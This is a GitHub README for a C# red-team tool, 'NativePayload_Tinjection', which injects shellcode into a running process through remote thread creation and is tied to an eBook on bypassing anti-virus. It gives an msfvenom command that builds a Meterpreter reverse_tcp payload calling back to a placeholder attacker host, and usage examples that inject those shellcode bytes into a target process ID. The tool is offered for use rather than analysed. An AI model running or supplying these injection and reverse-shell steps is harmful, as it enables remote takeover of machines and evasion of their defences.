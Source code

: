 # NativePayload_Tinjection
Creating Remote Thread into Target Process , (Remote Thread Injection by C# + Delegate Techniques)

-----------------------
Related Links for "Mitre ATT&CK": 

Process Injection: Portable Executable Injection ==>  https://attack.mitre.org/techniques/T1055/002/

Process Injection: Dynamic-link Library Injection ==> https://attack.mitre.org/techniques/T1055/001/

--------------------------
Your Payload Should be Msfvenom Payload ... 

msfvenom –platform windows –arch x86_64 -p windows/x64/meterpreter/reverse_tcp lhost=w.x.y.z -f c > payload.txt
-------------------------

    Code1: NativePayload_Tinjection.exe [TPID] [PAYLOAD]

    Code2: NativePayload_Tinjectionx.exe [TPID] [PAYLOAD]
    
    Code3: NativePayload_Tinjection2.exe [TPID] [PAYLOAD]
    
    Code4: NativePayload_Tinjection2nt.exe [TPID] [PAYLOAD]


    EXAMPLE: NativePayload_Tinjection.exe 2452 "FC,48,83,00,..."

    EXAMPLE: NativePayload_Tinjectionx.exe 2452 "FC,48,83,00,..."
    
    EXAMPLE: NativePayload_Tinjection2.exe 2452 "FC,48,83,00,..."
    
    EXAMPLE: NativePayload_Tinjection2nt.exe 2452 "FC,48,83,00,..."
    
------------------------------------------------

Article [1]: https://www.linkedin.com/pulse/bypassing-anti-virus-creating-remote-thread-target-mohammadbagher

step by step => Chapter 14: C# Delegate & Remote Thread Injection Technique (Part1)

https://github.com/DamonMohammadbagher/eBook-BypassingAVsByCSharp/blob/master/CH14/Bypassing%20Anti%20Viruses%20by%20C%23.NET%20Programming%20Chapter%2014%20-Part1.pdf

------------------------------------------------

online eBook, (chapters): https://damonmohammadbagher.github.io/Posts/ebookBypassingAVsByCsharpProgramming/

------------------------------------------------

NativePayload_Tinjection.cs

![](https://github.com/DamonMohammadbagher/NativePayload_Tinjection/blob/main/Picture/2.jpeg)

NativePayload_Tinjection2nt.cs

![](https://github.com/DamonMohammadbagher/NativePayload_Tinjection/blob/main/Picture/NativePayload_Tinjection2nt.png)

